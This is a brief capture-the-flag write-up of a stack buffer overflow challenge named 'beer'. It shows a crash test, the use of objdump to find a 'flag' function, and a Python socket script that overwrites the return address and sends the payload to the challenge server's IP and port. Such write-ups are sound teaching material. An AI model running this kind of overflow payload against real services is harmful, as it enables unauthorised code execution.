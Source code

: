 This challenge was simple and fun. As it involved overflowing beer ;)
![_config.yml]({{ site.baseurl }}/images/bofgit2.png)

as you can guess by the looks of it, it's a buffer overflow challenge and all we have to do is overflow the stack and get our stack pointer to point to a location in a memory which we can take advantage of.
Let's quckly check if is vulnerable to the attack.
![_config.yml]({{ site.baseurl }}/images/bofgit1.png)

bingo!
We just sent random characters and we go a segmentation fault error!
So all now we have to do are these things:
1. Reverse the ELF and find something to jump upon.
2. Find it's address on stack.
3. Make a python script to pwn the challenge.
There are many ways to do this. We can use Ghidra to find what ELF do and what their funcions do. I will just list the functions using
```
objdump -d beer
```
In the output the function *flag* looks interesting.
![_config.yml]({{ site.baseurl }}/images/gitbof3.png)

Jot down the address of the function and now we have to make simple python script to launch the attack.
```python
import socket
buf="A"*72 +"\x10\x12\x40"+"\x00"*5
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("172.105.53.6",32771))
    s.recv(4000)
    print s.recv(1024)
    s.send(buf+"\r\n")
    print s.recv(1024)
    print s.recv(1024)

    
except:
    print "rerr"
```



